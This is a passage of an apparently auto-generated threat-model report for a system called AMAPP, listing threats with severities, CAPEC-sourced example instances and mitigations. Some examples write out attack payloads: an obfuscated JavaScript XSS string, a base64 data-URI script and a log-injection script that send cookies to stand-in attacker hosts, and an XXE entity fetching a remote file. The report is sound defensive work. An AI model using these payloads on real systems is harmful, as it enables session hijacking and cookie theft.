($=[$=[]][(__=!$+$)[_=-~-~-~$]+({}+$)[_/_]+($$=($_=!&#x27;&#x27;+$)[_/_]+$_[+$])])()[__[_/_]+__[_+~$]+$_[_]+$$](_/_) would be executed by the JavaScript engine like alert(1) is.</p>
  <h6>Mitigations</h6>
  <p>Design: Use browser technologies that do not allow client side scripting.Design: Utilize strict type, character, and encoding enforcementImplementation: Ensure all content that is delivered to client is sanitized against an acceptable content specification.Implementation: Ensure all content coming from the client is using the same encoding; if not, the server-side application must canonicalize the data before applying any filtering.Implementation: Perform input validation for all remote content, including remote and user-generated contentImplementation: Perform output validation for all remote content.Implementation: Disable scripting languages such as JavaScript in browserImplementation: Patching software. There are many attack vectors for XSS on the client side and the server side. Many vulnerabilities are fixed in service packs for browser, web servers, and plug in technologies, staying current on patch release that deal with XSS countermeasures mitigates this.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/199.html, http://cwe.mitre.org/data/definitions/87.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR05   --   Encryption Brute Forcing</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Low</p>
  <h6>Example Instances</h6>
  <p>In 1997 the original DES challenge used distributed net computing to brute force the encryption key and decrypt the ciphertext to obtain the original plaintext. Each machine was given its own section of the key space to cover. The ciphertext was decrypted in 96 days.</p>
  <h6>Mitigations</h6>
  <p>Use commonly accepted algorithms and recommended key sizes. The key size used will depend on how important it is to keep the data confidential and for how long.In theory a brute force attack performing an exhaustive key space search will always succeed, so the goal is to have computational security. Moore&#x27;s law needs to be taken into account that suggests that computing resources double every eighteen months.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/20.html, http://cwe.mitre.org/data/definitions/326.html, http://cwe.mitre.org/data/definitions/327.html, http://cwe.mitre.org/data/definitions/693.html, http://cwe.mitre.org/data/definitions/719.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC08   --   Manipulate Registry Information</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Manipulating registration information can be undertaken in advance of a path traversal attack (inserting relative path modifiers) or buffer overflow attack (enlarging a registry value beyond an application&#x27;s ability to store it).</p>
  <h6>Mitigations</h6>
  <p>Ensure proper permissions are set for Registry hives to prevent users from modifying keys.Employ a robust and layered defensive posture in order to prevent unauthorized users on your system.Employ robust identification and audit/blocking via whitelisting of applications on your system. Unnecessary applications, utilities, and configurations will have a presence in the system registry that can be leveraged by an adversary through this attack pattern.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/203.html, http://cwe.mitre.org/data/definitions/15.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   SC05   --   Removing Important Client Functionality</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Attacker reverse engineers a Java binary (by decompiling it) and identifies where license management code exists. Noticing that the license manager returns TRUE or FALSE as to whether or not the user is licensed, the Attacker simply overwrites both branch targets to return TRUE, recompiles, and finally redeploys the binary.Attacker uses click-through exploration of a Servlet-based website to map out its functionality, taking note of its URL-naming conventions and Servlet mappings. Using this knowledge and guessing the Servlet name of functionality they&#x27;re not authorized to use, the Attacker directly navigates to the privileged functionality around the authorizing single-front controller (implementing programmatic authorization checks).Attacker reverse-engineers a Java binary (by decompiling it) and identifies where license management code exists. Noticing that the license manager returns TRUE or FALSE as to whether or not the user is licensed, the Attacker simply overwrites both branch targets to return TRUE, recompiles, and finally redeploys the binary.</p>
  <h6>Mitigations</h6>
  <p>Design: For any security checks that are performed on the client side, ensure that these checks are duplicated on the server side.Design: Ship client-side application with integrity checks (code signing) when possible.Design: Use obfuscation and other techniques to prevent reverse engineering the client code.</p>
  <h6>References</h6>
  <p>http://cwe.mitre.org/data/definitions/602.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP17   --   XSS Using MIME Type Mismatch</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>For example, the MIME type text/plain may be used where the actual content is text/javascript or text/html. Since text does not contain scripting instructions, the stated MIME type would indicate that filtering is unnecessary. However, if the target application subsequently determines the file&#x27;s real type and invokes the appropriate interpreter, scripted content could be invoked.In another example, img tags in HTML content could reference a renderable type file instead of an expected image file. The file extension and MIME type can describe an image file, but the file content can be text/javascript or text/html resulting in script execution. If the browser assumes all references in img tags are images, and therefore do not need to be filtered for scripts, this would bypass content filters.</p>
  <h6>Mitigations</h6>
  <p>Design: Browsers must invoke script filters to detect that the specified MIME type of the file matches the actual type of its content before deciding which script interpreter to use.</p>
  <h6>References</h6>
  <p>http://cwe.mitre.org/data/definitions/79.html, http://cwe.mitre.org/data/definitions/20.html, http://cwe.mitre.org/data/definitions/646.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AA03   --   Exploitation of Trusted Credentials</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Thin client applications like web applications are particularly vulnerable to session ID attacks. Since the server has very little control over the client, but still must track sessions, data, and objects on the server side, cookies and other mechanisms have been used to pass the key to the session data between the client and server. When these session keys are compromised it is trivial for an attacker to impersonate a user&#x27;s session in effect, have the same capabilities as the authorized user. There are two main ways for an attacker to exploit session IDs. A brute force attack involves an attacker repeatedly attempting to query the system with a spoofed session header in the HTTP request. A web server that uses a short session ID can be easily spoofed by trying many possible combinations so the parameters session-ID= 1234 has few possible combinations, and an attacker can retry several hundred or thousand request with little to no issue on their side. The second method is interception, where a tool such as wireshark is used to sniff the wire and pull off any unprotected session identifiers. The attacker can then use these variables and access the application.</p>
  <h6>Mitigations</h6>
  <p>Design: utilize strong federated identity such as SAML to encrypt and sign identity tokens in transit.Implementation: Use industry standards session key generation mechanisms that utilize high amount of entropy to generate the session key. Many standard web and application servers will perform this task on your behalf.Implementation: If the session identifier is used for authentication, such as in the so-called single sign on use cases, then ensure that it is protected at the same level of assurance as authentication tokens.Implementation: If the web or application server supports it, then encrypting and/or signing the session ID (such as cookie) can protect the ID if intercepted.Design: Use strong session identifiers that are protected in transit and at rest.Implementation: Utilize a session timeout for all sessions, for example 20 minutes. If the user does not explicitly logout, the server terminates their session after this period of inactivity. If the user logs back in then a new session key is generated.Implementation: Verify of authenticity of all session IDs at runtime.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/21.html, http://cwe.mitre.org/data/definitions/290.html, http://cwe.mitre.org/data/definitions/346.html, http://cwe.mitre.org/data/definitions/664.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC09   --   Functionality Misuse</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker clicks on the &#x27;forgot password&#x27; and is presented with a single security question. The question is regarding the name of the first dog of the user. The system does not limit the number of attempts to provide the dog&#x27;s name. An attacker goes through a list of 100 most popular dog names and finds the right name, thus getting the ability to reset the password and access the system.</p>
  <h6>Mitigations</h6>
  <p>Perform comprehensive threat modeling, a process of identifying, evaluating, and mitigating potential threats to the application. This effort can help reveal potentially obscure application functionality that can be manipulated for malicious purposes.When implementing security features, consider how they can be misused and compromised.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/212.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP18   --   Fuzzing and observing application log data/errors for application mapping</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Low</p>
  <h6>Example Instances</h6>
  <p>The following code generates an error message that leaks the full pathname of the configuration file. $ConfigDir = /home/myprog/config;$uname = GetUserInput(username);ExitError(Bad hacker!) if ($uname !~ /^w+$/);$file = $ConfigDir/$uname.txt;if (! (-e $file)) { ExitError(Error: $file does not exist); }... If this code is running on a server, such as a web application, then the person making the request should not know what the full pathname of the configuration directory is. By submitting a username that does not produce a $file that exists, an attacker could get this pathname. It could then be used to exploit path traversal or symbolic link following problems that may exist elsewhere in the application.</p>
  <h6>Mitigations</h6>
  <p>Design: Construct a &#x27;code book&#x27; for error messages. When using a code book, application error messages aren&#x27;t generated in string or stack trace form, but are catalogued and replaced with a unique (often integer-based) value &#x27;coding&#x27; for the error. Such a technique will require helpdesk and hosting personnel to use a &#x27;code book&#x27; or similar mapping to decode application errors/logs in order to respond to them normally.Design: wrap application functionality (preferably through the underlying framework) in an output encoding scheme that obscures or cleanses error messages to prevent such attacks. Such a technique is often used in conjunction with the above &#x27;code book&#x27; suggestion.Implementation: Obfuscate server fields of HTTP response.Implementation: Hide inner ordering of HTTP response header.Implementation: Customizing HTTP error codes such as 404 or 500.Implementation: Hide HTTP response header software information filed.Implementation: Hide cookie&#x27;s software information filed.Implementation: Obfuscate database type in Database API&#x27;s error message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/215.html, http://cwe.mitre.org/data/definitions/209.html, http://cwe.mitre.org/data/definitions/532.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AA04   --   Exploiting Trust in Client</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Web applications may use JavaScript to perform client side validation, request encoding/formatting, and other security functions, which provides some usability benefits and eliminates some client-server round-tripping. However, the web server cannot assume that the requests it receives have been subject to those validations, because an attacker can use an alternate method for crafting the HTTP Request and submit data that contains poisoned values designed to spoof a user and/or get the web server to disclose information.Web 2.0 style applications may be particularly vulnerable because they in large part rely on existing infrastructure which provides scalability without the ability to govern the clients. Attackers identify vulnerabilities that either assume the client side is responsible for some security services (without the requisite ability to ensure enforcement of these checks) and/or the lack of a hardened, default deny server configuration that allows for an attacker probing for weaknesses in unexpected ways. Client side validation, request formatting and other services may be performed, but these are strictly usability enhancements not security enhancements.Many web applications use client side scripting like JavaScript to enforce authentication, authorization, session state and other variables, but at the end of day they all make requests to the server. These client side checks may provide usability and performance gains, but they lack integrity in terms of the http request. It is possible for an attacker to post variables directly to the server without using any of the client script security checks and customize the patterns to impersonate other users or probe for more information.Many message oriented middleware systems like MQ Series are rely on information that is passed along with the message request for making authorization decisions, for example what group or role the request should be passed. However, if the message server does not or cannot authenticate the authorization information in the request then the server&#x27;s policy decisions about authorization are trivial to subvert because the client process can simply elevate privilege by passing in elevated group or role information which the message server accepts and acts on.</p>
  <h6>Mitigations</h6>
  <p>Design: Ensure that client process and/or message is authenticated so that anonymous communications and/or messages are not accepted by the system.Design: Do not rely on client validation or encoding for security purposes.Design: Utilize digital signatures to increase authentication assurance.Design: Utilize two factor authentication to increase authentication assurance.Implementation: Perform input validation for all remote content.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/22.html, http://cwe.mitre.org/data/definitions/287.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP19   --   XML External Entities Blowup</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>In this example, the XML parser parses the attacker&#x27;s XML and opens the malicious URI where the attacker controls the server and writes a massive amount of data to the response stream. In this example the malicious URI is a large file transfer. &lt;?xml version=1.0?&gt;&lt; !DOCTYPE bomb [&lt;!ENTITY detonate SYSTEM http://www.malicious-badguy.com/myhugefile.exe&gt;]&gt;&lt;bomb&gt;&amp;detonate;&lt;/bomb&gt;</p>
  <h6>Mitigations</h6>
  <p>This attack may be mitigated by tweaking the XML parser to not resolve external entities. If external entities are needed, then implement a custom XmlResolver that has a request timeout, data retrieval limit, and restrict resources it can retrieve locally.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/221.html, http://cwe.mitre.org/data/definitions/611.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC11   --   Session Credential Falsification through Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary uses client side scripting(JavaScript) to set session ID in the victim&#x27;s browser using document.cookie. This fixates a falsified session credential into victim&#x27;s browser with the help of a crafted URL link. Once the victim clicks on the link, the attacker is able to bypass authentication or piggyback off some other authenticated victim&#x27;s session.</p>
  <h6>Mitigations</h6>
  <p>Implementation: Use session IDs that are difficult to guess or brute-force: One way for the attackers to obtain valid session IDs is by brute-forcing or guessing them. By choosing session identifiers that are sufficiently random, brute-forcing or guessing becomes very difficult. Implementation: Regenerate and destroy session identifiers when there is a change in the level of privilege: This ensures that even though a potential victim may have followed a link with a fixated identifier, a new one is issued when the level of privilege changes.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/226.html, http://cwe.mitre.org/data/definitions/565.html, http://cwe.mitre.org/data/definitions/472.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP21   --   DTD Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary injects XML External Entity (XEE) attack that can cause the disclosure of confidential information, execute abitrary code, create a Denial of Service of the targeted server, or several other malicious impacts.</p>
  <h6>Mitigations</h6>
  <p>Design: Sanitize incoming DTDs to prevent excessive expansion or other actions that could result in impacts like resource depletion.Implementation: Disallow the inclusion of DTDs as part of incoming messages.Implementation: Use XML parsing tools that protect against DTD attacks.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/228.html, http://cwe.mitre.org/data/definitions/829.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP22   --   XML Attribute Blowup</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>In this example, assume that the victim is running a vulnerable parser such as .NET framework 1.0. This results in a quadratic runtime of O(n^2). &lt;?xml version=1.0?&gt;&lt;fooaaa=ZZZ=...999=/&gt; A document with n attributes results in (n^2)/2 operations to be performed. If an operation takes 100 nanoseconds then a document with 100,000 operations would take 500s to process. In this fashion a small message of less than 1MB causes a denial of service condition on the CPU resources.</p>
  <h6>Mitigations</h6>
  <p>This attack may be mitigated completely by using a parser that is not using a vulnerable container. Mitigation may also limit the number of attributes per XML element.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/229.html, http://cwe.mitre.org/data/definitions/770.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP28   --   XSS Targeting URI Placeholders</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The following payload data: text/html;base64,PGh0bWw+PGJvZHk+PHNjcmlwdD52YXIgaW1nID0gbmV3IEltYWdlKCk7IGltZy5zcmMgPSAiaHR0cDovL2F0dGFja2VyLmNvbS9jb29raWVncmFiYmVyPyIrIGVuY29kZVVSSUNvbXBvbmVudChkb2N1bWVudC5jb29raWVzKTs8L3NjcmlwdD48L2JvZHk+PC9odG1sPg== represents a base64 encoded HTML and uses the data URI scheme to deliver it to the browser. The decoded payload is the following piece of HTML code: &lt;html&gt;&lt;body&gt;&lt;script&gt;var img = new Image();img.src = http://attacker.com/cookiegrabber?+ encodeURIComponent(document.cookies); &lt;/script&gt; &lt;/body&gt; &lt;/html&gt; Web applications that take user controlled inputs and reflect them in URI HTML placeholder without a proper validation are at risk for such an attack. An attacker could inject the previous payload that would be placed in a URI placeholder (for example in the anchor tag HREF attribute): &lt;a href=INJECTION_POINT&gt;My Link&lt;/a&gt; Once the victim clicks on the link, the browser will decode and execute the content from the payload. This will result on the execution of the cross-site scripting attack.</p>
  <h6>Mitigations</h6>
  <p>Design: Use browser technologies that do not allow client side scripting.Design: Utilize strict type, character, and encoding enforcement.Implementation: Ensure all content that is delivered to client is sanitized against an acceptable content specification.Implementation: Ensure all content coming from the client is using the same encoding; if not, the server-side application must canonicalize the data before applying any filtering.Implementation: Perform input validation for all remote content, including remote and user-generated contentImplementation: Perform output validation for all remote content.Implementation: Disable scripting languages such as JavaScript in browserImplementation: Patching software. There are many attack vectors for XSS on the client side and the server side. Many vulnerabilities are fixed in service packs for browser, web servers, and plug in technologies, staying current on patch release that deal with XSS countermeasures mitigates this.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/244.html, http://cwe.mitre.org/data/definitions/83.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP29   --   XSS Using Doubled Characters</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>By doubling the &lt; before a script command, (&lt;&lt;script or %3C%3script using URI encoding) the filters of some web applications may fail to recognize the presence of a script tag. If the targeted server is vulnerable to this type of bypass, the attacker can create a crafted URL or other trap to cause a victim to view a page on the targeted server where the malicious content is executed, as per a normal XSS attack.</p>
  <h6>Mitigations</h6>
  <p>Design: Use libraries and templates that minimize unfiltered input.Implementation: Normalize, filter and sanitize all user supplied fields.Implementation: The victim should configure the browser to minimize active content from untrusted sources.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/245.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP34   --   SOAP Array Overflow</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Refer to this example - http://projects.webappsec.org/w/page/13246962/SOAP%20Array%20Abuse</p>
  <h6>Mitigations</h6>
  <p>If the server either verifies the correctness of the stated array size or if the server stops processing an array once the stated number of elements have been read, regardless of the actual array size, then this attack will fail. The former detects the malformed SOAP message while the latter ensures that the server does not attempt to load more data than was allocated for.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/256.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP36   --   HTTP Response Smuggling</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>The attacker targets the cache service used by the organization to reduce load on the internet bandwidth. This server can be a cache server on the LAN or other application server caching the static WebPages. The attacker sends three different HTTP request as shown - Request 1: POST request for http://www.netbanking.com, Request 2: GET request for http:www.netbanking.com/FD.html, Request 3: GET request for http://www.netbanking.com/FD-Rates.html. Due to malformed request cache server assumes request 1 and 3 as valid request and forwards the entire request to the webserver. Webserver which strictly follow then HTTP parsing rule responds with the http://www.netbanking.com/FD.html  HTML page. This is happened because webserver consider request 1 and 2 as valid one. Cache server stores this response against the request 3. When normal users request for page http://www.netbanking.com/FD-Rates.html, cache server responds with the page http://www.netbanking.com/FD.html.Hence attacker will succeeds in cache poisoning.</p>
  <h6>Mitigations</h6>
  <p>Design: Employ strict adherence to interpretations of HTTP messages wherever possible.Implementation: Encode header information provided by user input so that user-supplied content is not interpreted by intermediaries.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/273.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP37   --   HTTP Request Smuggling</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>When using Sun Java System Web Proxy Server 3.x or 4.x in conjunction with Sun ONE/iPlanet 6.x, Sun Java System Application Server 7.x or 8.x, it is possible to bypass certain application firewall protections, hijack web sessions, perform Cross Site Scripting or poison the web proxy cache using HTTP Request Smuggling. Differences in the way HTTP requests are parsed by the Proxy Server and the Application Server enable malicious requests to be smuggled through to the Application Server, thereby exposing the Application Server to aforementioned attacks. See also: CVE-2006-6276Apache server 2.0.45 and version before 1.3.34, when used as a proxy, easily lead to web cache poisoning and bypassing of application firewall restrictions because of non-standard HTTP behavior. Although the HTTP/1.1 specification clearly states that a request with both Content-Length and a Transfer-Encoding: chunked headers is invalid, vulnerable versions of Apache accept such requests and reassemble the ones with Transfer-Encoding: chunked header without replacing the existing Content-Length header or adding its own. This leads to HTTP Request Smuggling using a request with a chunked body and a header with Content-Length: 0. See also: CVE-2005-2088</p>
  <h6>Mitigations</h6>
  <p>HTTP Request Smuggling is usually targeted at web servers. Therefore, in such cases, careful analysis of the entities must occur during system design prior to deployment. If there are known differences in the way the entities parse HTTP requests, the choice of entities needs consideration.Employing an application firewall can help. However, there are instances of the firewalls being susceptible to HTTP Request Smuggling as well.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/33.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC16   --   Session Credential Falsification through Prediction</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Jetty before 4.2.27, 5.1 before 5.1.12, 6.0 before 6.0.2, and 6.1 before 6.1.0pre3 generates predictable session identifiers using java.util.random, which makes it easier for remote attackers to guess a session identifier through brute force attacks, bypass authentication requirements, and possibly conduct cross-site request forgery attacks. See also: CVE-2006-6969mod_usertrack in Apache 1.3.11 through 1.3.20 generates session ID&#x27;s using predictable information including host IP address, system time and server process ID, which allows local users to obtain session ID&#x27;s and bypass authentication when these session ID&#x27;s are used for authentication. See also: CVE-2001-1534</p>
  <h6>Mitigations</h6>
  <p>Use a strong source of randomness to generate a session ID.Use adequate length session IDs. Do not use information available to the user in order to generate session ID (e.g., time).Ideas for creating random numbers are offered by Eastlake [RFC1750]. Encrypt the session ID if you expose it to the user. For instance session ID can be stored in a cookie in encrypted format.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/59.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC17   --   Session Hijacking - ServerSide</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>Cross Site Injection Attack is a great example of Session Hijacking. Attacker can capture victim’s Session ID using XSS attack by using javascript. If an attacker sends a crafted link to the victim with the malicious JavaScript, when the victim clicks on the link, the JavaScript will run and complete the instructions made by the attacker.</p>
  <h6>Mitigations</h6>
  <p>Properly encrypt and sign identity tokens in transit, and use industry standard session key generation mechanisms that utilize high amount of entropy to generate the session key. Many standard web and application servers will perform this task on your behalf. Utilize a session timeout for all sessions. If the user does not explicitly logout, terminate their session after this period of inactivity. If the user logs back in then a new session key should be generated.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/593.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC01   --   Privilege Abuse</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary that has previously obtained unauthorized access to certain device resources, uses that access to obtain information such as location and network information.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication and authorization mechanisms. A proven protocol is OAuth 2.0, which enables a third-party application to obtain limited access to an API.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/122.html, http://cwe.mitre.org/data/definitions/732.html, http://cwe.mitre.org/data/definitions/269.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DO02   --   Excessive Allocation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>In an Integer Attack, the adversary could cause a variable that controls allocation for a request to hold an excessively large value. Excessive allocation of resources can render a service degraded or unavailable to legitimate users and can even lead to crashing of the target.</p>
  <h6>Mitigations</h6>
  <p>Limit the amount of resources that are accessible to unprivileged users. Assume all input is malicious. Consider all potentially relevant properties when validating input. Consider uniformly throttling all requests in order to make it more difficult to consume resources more quickly than they can again be freed. Use resource-limiting settings, if possible.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/130.html, http://cwe.mitre.org/data/definitions/770.html, http://cwe.mitre.org/data/definitions/404.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR05   --   Encryption Brute Forcing</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>Low</p>
  <h6>Example Instances</h6>
  <p>In 1997 the original DES challenge used distributed net computing to brute force the encryption key and decrypt the ciphertext to obtain the original plaintext. Each machine was given its own section of the key space to cover. The ciphertext was decrypted in 96 days.</p>
  <h6>Mitigations</h6>
  <p>Use commonly accepted algorithms and recommended key sizes. The key size used will depend on how important it is to keep the data confidential and for how long.In theory a brute force attack performing an exhaustive key space search will always succeed, so the goal is to have computational security. Moore&#x27;s law needs to be taken into account that suggests that computing resources double every eighteen months.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/20.html, http://cwe.mitre.org/data/definitions/326.html, http://cwe.mitre.org/data/definitions/327.html, http://cwe.mitre.org/data/definitions/693.html, http://cwe.mitre.org/data/definitions/719.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE04   --   Audit Log Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP DB </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The attacker alters the log contents either directly through manipulation or forging or indirectly through injection of specially crafted input that the target software will write to the logs. This type of attack typically follows another attack and is used to try to cover the traces of the previous attack. Insert a script into the log file such that if it is viewed using a web browser, the attacker will get a copy of the operator/administrator&#x27;s cookie and will be able to gain access as that user. For example, a log file entry could contain &lt;script&gt;new Image().src=&#x27;http://xss.attacker.com/log_cookie?cookie=&#x27;+encodeURI(document.cookie);&lt;/script&gt; The script itself will be invisible to anybody viewing the logs in a web browser (unless they view the source for the page).</p>
  <h6>Mitigations</h6>
  <p>Use Principle of Least Privilege to avoid unauthorized access to log files leading to manipulation/injection on those files. Do not allow tainted data to be written in the log file without prior input validation. Whitelisting may be used to properly validate the data. Use synchronization to control the flow of execution. Use static analysis tool to identify log forging vulnerabilities. Avoid viewing logs with tools that may interpret control characters in the file, such as command-line shells.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/268.html, https://capec.mitre.org/data/definitions/93.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE01   --   Interception</summary>
  <h6> Targeted Element </h6>
  <p> Submit login credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to block, manipulate, and steal communications in an attempt to achieve a desired negative technical impact.</p>
  <h6>Mitigations</h6>
  <p>Leverage encryption to encode the transmission of data thus making it accessible only to authorized parties.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/117.html, http://cwe.mitre.org/data/definitions/319.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC05   --   Content Spoofing</summary>
  <h6> Targeted Element </h6>
  <p> Submit login credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An attacker finds a site which is vulnerable to HTML Injection. He sends a URL with malicious code injected in the URL to the user of the website(victim) via email or some other social networking site. User visits the page because the page is located within trusted domain. When the victim accesses the page, the injected HTML code is rendered and presented to the user asking for username and password. The username and password are both sent to the attacker&#x27;s server.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc. Encoding any user input that will be output by the web application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/148.html, http://cwe.mitre.org/data/definitions/345.html, https://cwe.mitre.org/data/definitions/299.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE03   --   Sniffing Attacks</summary>
  <h6> Targeted Element </h6>
  <p> Submit login credentials </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Attacker knows that the computer/OS/application can request new applications to install, or it periodically checks for an available update. The attacker loads the sniffer set up during Explore phase, and extracts the application code from subsequent communication. The attacker then proceeds to reverse engineer the captured code.</p>
  <h6>Mitigations</h6>
  <p>Encrypt sensitive information when transmitted on insecure mediums to prevent interception.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/311.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR06   --   Communication Channel Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> Submit login credentials </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Using MITM techniques, an attacker launches a blockwise chosen-boundary attack to obtain plaintext HTTP headers by taking advantage of an SSL session using an encryption protocol in CBC mode with chained initialization vectors (IV). This allows the attacker to recover session IDs, authentication cookies, and possibly other valuable data that can be used for further exploitation. Additionally this could allow for the insertion of data into the stream, allowing for additional attacks (CSRF, SQL inject, etc) to occur.</p>
  <h6>Mitigations</h6>
  <p>Encrypt all sensitive communications using properly-configured cryptography.Design the communication system such that it associates proper authentication/authorization with each channel/message.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/216.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
